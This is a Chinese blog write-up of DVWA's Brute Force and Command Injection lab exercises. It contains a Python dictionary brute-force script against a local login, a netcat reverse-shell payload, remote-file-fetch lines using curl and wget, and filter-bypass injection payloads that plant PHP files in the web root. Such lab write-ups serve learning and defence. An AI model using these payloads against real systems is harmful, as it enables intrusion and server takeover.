## 前言

萌新试玩DVWA，Brute Force 和 Command Injection 两道入门题。

## Brute Force

### 信息收集



表单很简单，尝试随便给个用户名密码会报错。



出于基本的好奇和联想（不要联想）试了下`admin`和`password`（就是DVWA默认的登陆密码），发现这就是正确密码了。



好吧，猜出来也算。但题目是 Brute Force，所以本意应该是整一个暴力破解的脚本什么的吧，像是公网上天天扫 22 端口尝试弱密码的机器人一样。

出于这样的想法，再看下表单怎么提交的，能不能直接写个脚本发 HTTP 请求搞定。



再看下网络请求。



用户名密码直接放在 QueryString 里，看起来也没什么保护，既然这样自己构造请求就很轻松愉快了。

### 准备

暴力破解也有暴力破解的技巧。

可接受的输入长度在有限区间的情况下，直接遍历所有字母数字特殊字符组合是很难顶的，每多一位可能的密码数量都是指数上升。比如最短 6 位密码，接受 ASCII 127 个字符，就有 127^6 种可能的密码，最长 16 位密码就是 127^16，每次尝试花费 1ms 的话，所需时间可以达到 1.44E+38 年这么久。

但人不可能真的随机从ascii码表里随机抽取字符当密码，所以暴力破解其实只需要尝试比较常见的密码就行（比如生日、名字、单词、有规律的数字以及这些元素的组合），还可以选择从其他已泄露的网站里保存的用户名密码来“撞库”碰运气。

这种“弱密码”构成的表在网上还是比较容易找到的。实在不行可以自己现编一个，比如直接英语词典、日期、常见姓名凑一凑，再找个 20xx 年 top N 弱密码合起来就是个可以一战的弱密码字典了。不过最好还是找个高质量的字典，好的字典排序能让暴力破密码更快（就是从统计（？）上来说越靠前的密码越常用，越可能是正确的密码）。

挑好字典之后，剩下就是直接把这个字典从头到尾试一遍了。这里我随便找了个[Weak-password](https://github.com/TgeaUs/Weak-password/)（里面大部分内容不关心也用不到）直接下载 zip。

创建个 `dvwa-writeup` 仓库用来存 dvwa 题解脚本，把 zip 解压进去。



就是这样。

### 编写脚本

出于个人偏好，使用 python 编写脚本。

```python
#!/usr/bin/env python3
#
# WriteUp: brute force [Security Level: Low]
# Author: weak_ptr
#
# NOTE: require python version >= 3.6
#

import requests

dictionary_list = [
    'Weak-password/Password dictionary/常用密码.dict',
    'Weak-password/Password dictionary/国外常用密码.dict',
]

for path in dictionary_list:
    print(f'[+] open dict: {path}')
    with open(path, 'r', encoding='utf-8') as f:
        for line in f:
            pwd = line.strip()
            resp = requests.get(
                f'http://localhost:8080/vulnerabilities/brute/?username=admin&password={pwd}&Login=Login#',
                cookies={'PHPSESSID': 't6kml64lvsbd8909fkrh51ove0', 'security': 'low'})
            # 太粗暴
            print(f'[-] try password: {pwd}')
            if 'Username and/or password incorrect.' not in resp.content.decode('utf-8'):
                print(f'[+] Done! password is {repr(pwd)}')
                break
        else:
            continue
        break
```

运行后：

```plaintext
[+] open dict: Weak-password/Password dictionary/常用密码.dict
[-] try password: admin
[-] try password: admin12
[-] try password: admin888
[-] try password: admin8
[-] try password: admin123
[-] try password: sysadmin
[-] try password: adminxxx
[-] try password: adminx
[-] try password: 6kadmin
[-] try password: base
[-] try password: feitium
[-] try password: admins
[-] try password: root
[-] try password: roots
[-] try password: test
[-] try password: test1
[-] try password: test123
[-] try password: test2
[-] try password: password
[+] Done! password is 'password'
```

值得注意的是不清楚是不是因为我跑在容器里而且虚拟机只分配了 2C 1G 的缘故，每次尝试密码耗时都接近 1s。放在真实场景下，服务端如果限制了请求频率（或者把每个请求都用固定时间返回，如 1s），破解成本会骤然提高（不过对服务器来说固定返回时间也是有不低的成本的）。

### 提高难度

尝试把安全等级提高到 Medium 和 High 对暴力破解并没有什么用，不清楚是不是因为虚拟机太慢，单线程爆破没触发频率限制。但总之是和 Low 难度下没什么区别。

提高到 Impossible ，开启 PHPIDS 也无济于事。

可见系统设计再安全也顶不住人为因素，保险箱钥匙放在地毯下面的时候就算保险箱是振金做的也防不住贼啊。

## Command Injection

### 信息收集



介绍是 ping a device，尝试输入 localhost 提交：



应该是执行了 `ping -c 4 <用户输入>`。尝试随便输入什么东西会不会报错。





立刻返回了，什么也没发生。再尝试拼一个命令进去：`localhost && echo 123`



注意到末尾输出了 123，说明存在命令执行。

### 准备

能执行任意命令的话，悬念就不大了，进可攻退可守。

对 `/var/www/html` 有写权限的话可以直接写个一句话木马，或者通过 `nc` 命令反弹 shell。

顺便一体 nc 反弹 shell 我并不会（手动狗头）。所以还得先学一学怎么用 nc 反弹 shell，到底啥原理。

先 `man nc` 看看手册。

> NAME
>
> ​       nc - TCP/IP swiss army knife
>
> SYNOPSIS
>
> ​       nc [-options] hostname port[s] [ports] ...
>
> ​       nc -l -p port [-options] [hostname] [port]

嘶......

TCP/IP 瑞士军刀诶。

> netcat  is a simple unix utility which reads and writes data across network connections, using TCP or UDP protocol. It is designed to be a reliable "back-end" tool that can be used directly or easily driven by other programs and scripts.  At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has  several interesting built-in capabilities.  Netcat, or "nc" as the actual program is named, should have been supplied long ago as another one of those cryptic but standard Unix tools.

netcat（我就管它叫网猫了），看介绍是一个可以被其他程序或者脚本驱动的“后端”工具，也是网络调试和探索工具，能创建几乎所有类型的连接。这么说感觉还有点迷惑，看后文介绍就清楚多了。

> In  the simplest usage, "nc host port" creates a TCP connection to the given port on the given target host.  Your standard input is then sent to the host, and anything that comes back across the connection is sent to your standard output.  This continues indefinitely, until the network side of the connection shuts down.  Note that this behavior is different from most  other  applications  which shut everything down and exit after an end-of-file on the standard input.
>
> Netcat  can  also  function as a server, by listening for inbound connections on arbitrary ports and then doing the same reading and writing.  With minor limitations, netcat doesn't really care if it runs in "client" or "server" mode -- it still shovels data back and forth until there isn't any more left. In either mode, shutdown can be forced after a configurable time of inactivity on  the  network side.

概括下值得关注的部分，就是网猫的两种工作模式。客户端模式下把 stdin 用连接转发，同时把收到的消息写到 stdout；服务器模式监听端口，同样转发 stdin 并把收到的消息写到 stdout 。

剩下比较重要的就是几个命令行选项：

- `-l` 指示网猫在服务器模式下工作，监听一个指定端口。
- `-e` 指示网猫在连接后运行一个程序，程序的输入会变成从连接收到的信息，程序的输出会从连接发送出去。
- `-s` 指示网猫监听的本地地址。

可以做个简单的实验熟悉下命令的使用，用 tmux 按 `ctrl+b` `"` `ctrl+b` `%` 切分两个窗口出来，一边执行 `nc -l -s 0.0.0.0 -p 12345` 另一边执行 `nc localhost 12345`。

在执行 `nc localhost 12345` 的这边网猫工作在客户端模式下，可以自由尝试在两边键盘输入什么东西，另一边都会实时回显：



现在解释网猫反向shell就很简单了，用 `nc localhost 12345 -e /bin/sh` 连接服务器，此时 `/bin/sh` 的输入输出被接管，我们在服务端输入 `ls`，客户端的 `/bin/sh` 读到的输入就是 `ls`，`/bin/sh` 执行 `ls` 的结果又返回到服务端——`nc`客户端就成了一个类似sshd的角色，故称反向连接。



### 构造 payload

先尝试用网猫反向连接。输入内容改成 `localhost && nc <ip> <port> -e /bin/sh &` ，等待连接。


没成功。网页显示 ping 命令的输出，看了眼 dvwa 容器的日志发现提示没有`nc`命令。

好吧，上面那么多话到最后还是没有屁用。那就改成提交一个 php 一句话。输入内容改为 `localhost && echo '<?php phpinfo(); ?>' > /var/www/html/1.php`，然后访问 `http://localhost:8080/1.php`，发现成功显示 phpinfo，done。



### 提高难度：Medium

在 Medium 难度下 直接注入 `localhost && echo 123` 会发现没有 `123` 回显了，日志里出现 `ping: unknown host` 的错误，初步怀疑是对 `&&` 做了过滤。

DVWA 是个白盒，我也不用瞎试，直接点开 view source 审计下代码。

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

注意到把 `&&` 和 `;` 去除了，但这个过滤显然是不完善的。起码我一下子就能想到还可以`||`或者`|`，还有`$()`之类的方式。

把先前的 payload 改成 `notexists || echo 123` 再提交。



可以看到 `echo 123` 已经被执行了，剩下的就是 get shell 了。

### 提高难度：High

High 难度下用 Medium 难度的 Payload 也能直接 bypass，有点意外。虽然已经过了，但还是再审计下 High 难度下的代码，看看和 Medium 难度有什么不同。

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

王德发？

这不是已经滤掉了 `||` 吗，为什么 `notexists || echo 123` 这个 payload 还是显示了 `123`？



我不理解，大受震撼。干脆开了个 php 解释器试一试 `str_replace` 到底替换出来个什么鬼。

```php
<?php
    // Get input
    $target = 'notexists || echo 123';

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    echo 'ping -c 4 ' . $target
?>
```

结果是`ping -c 4 notexists |echo 123`。看起来是 `str_replace` 的用法有误，导致实际替换掉的是 `|` 而不是 `||`。

php 官方文档（8.1）如是说：

> If `search` and `replace` are arrays, then **str_replace()** takes a value from each array and uses them to search and replace on `subject`. If `replace` has fewer values than `search`, then an empty string is used for the rest of replacement values. If `search` is an array and `replace` is a string, then this replacement string is used for every value of `search`. The converse would not make sense, though.

DVWA 容器的 PHP 版本是 7.0 ，姑且当没变。那问题就在于 `str_replace` 的替换方法了，我猜......当 `search` 是 `array` 的时候，`str_replace` 实际是这样干的：

```go
for _, pattern := range search {
    subject = replace(pattern, subject)
}
```

简单实验验证下。

```php
<?php
echo str_replace(array("a","ab"),"c","aabbcc"); // ccbbcc
```

但即使如此，也应该替换掉 `||` 两个字符才对啊...

最后才发现，替换的模式是 `| `（在`|`后面多一个空格），所以只替换掉了 `|| `的后一个 `| `......

事实证明视力还是很重要的，少打sc2，没瞎早该看到了。

据此可以再改一改 payload，已知 `||`会被替换成 `|`，管道运算符会把上一个命令的输出接到下一个命令的 stdin 输入。正好，`echo` 不读 stdin，直接`echo '<?php phpinfo(); ?>' > /var/www/html/1.php` 的方法应该不受影响。



倒是没报 404，可是白屏了。从 DVWA 的日志观察到下面的记录：

```plaintext
[Fri Apr 22 08:07:20.601596 2022] [:error] [pid 312] [client 10.0.2.2:51105] PHP Notice:  Use of undefined constant phpinfo - assumed 'phpinfo' in /var/www/html/2.php on line 1
```

这倒是很新鲜，`phpinfo`不应该是全局的吗？

> 我又傻逼了。

经过十几分钟的脑残式思考，忽然意识到 `(` 和 `)` 也在过滤清单里，哦淦！好吧，直接在这里注入 php 代码看来限制有点太多了，插个`curl`命令让它下载得了。

本地用 `python3 -m http.server`命令启动一个 http 服务器，然后 `ip addr show docker0` 看一眼本机 ip，把 payload 改成 `notexists || curl http://172.17.0.1:8000/2.php -O /var/www/html/2.php` ，先找个 playground 试一试过滤后的命令是什么样。

`ping -c 4 notexists |curl http://172.17.0.1:8000/2.php O /var/www/html/2.php`

发现 `-` 也被过滤了，`-O`参数不能用。想到看看 php 默认运行目录是哪里，直接 `wget` 下载到当前目录也可以。然后又想到可以再拼一个 `|| mv 2.php /var/www/html/2.php` 移动过去。再试一试。

`ping -c 4 notexists |wget http://172.17.0.1:8000/2.php |mv 2.php /var/www/html/2.php`

现在看起来有机会运行了，结果报错`wget: not found`。

行吧。乖乖`curl`，payload 改成 `notexists || curl http://172.17.0.1:8000/2.php || tee /var/www/html/2.php`。更屑的事情发生了：`curl: not found`。

怎么什么都没有？沃日。拼一句 `|| ls /usr/bin`看看有啥可以用的，惊喜地发现居然有个 `rsync`，这下总该省事了吧，结果半天没搞出来匿名访问的 rsync daemon。

一看时间快下班了，突然意识到其实有 `base64` 可以用=。=，还有`printf`转义`\x` 都能bypass。怎么一到下班时间就才思泉涌。

payload 改成 `notexists || printf '<?php phpinfo\x28\x29\x3b ?>' > /var/www/html/2.php`，结果发现依然不行。为什么？头都要炸了。`base64 -d`的`-`会被过滤故不能考虑，`printf`的`\x`转义序列怎么会不行，谷歌了一番[在爆栈看到个回答](https://stackoverflow.com/questions/66844155/bin-sh-does-not-recognize-hexadecimal-escape-sequences)：

> Because escape sequences in `\xdd` form (where each `d` represents a hexadecimal digit) are a GNU extension and not available everywhere. But octals are widely supported (and [standardized](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/printf.html#tag_05)), so you can use:
>
> ```sh
> printf '%b' '\0220'
> ```

好嘛，所以说 `\x` 转义序列还不够 portable 是吧。`\0`转义序列要用 8 进制编码，于是我再次改了一下 payload ...

`notexists|printf '<?php phpinfo\050\051\073 ?>' > /var/www/html/2.php`，把 `\x` 转义序列改成了 `\0`，这次没问题了。



此外还想到另一种解法，考虑`sh`（`csh`或者`dash`，`ash`？）不吃`\x`，要是对`\0`也不吃还有种比较狗的办法，`printf "printf \"\\x28\\x29\""|bash`，用`\\`转义留下反斜杠，然后传给`bash`执行。`bash`大概率是能吃下`\x`转义序列的，于是就间接实现了`printf \x28\x29`。

传`notexists|printf "printf \"\\x28\""|bash`这个 payload 可以看到回显 `(`，说明这个思路是 ok 的。



## 总结

Brute Force 比较简单，不提。

Command Injection 其实一直到 High 难度都还是比较简单的，High 难度下留了`|`管道符可以用，整个注入就没啥难度了。

这就让我想到了怎么写 `ping` 这个案例才能做到杜绝命令注入？

`\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}`正则匹配一下，感觉上面玩的那些花样就毫无意义了。

Impossible 难度下 Command Injection 变成了这样

```php
    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];
//...
```

我是有点难理解为什么还是用这种比较糙的手段验证=。=正则匹配下不行吗？`is_numeric`是不是能 bypass 我不太肯定，但这条长长的`if`看起来就感觉是有坑的样子...

所以吧...到底多少还有点迷惑。Impossible 难度的命令注入，未来再研究研究，也许之后会再写篇博客看看。
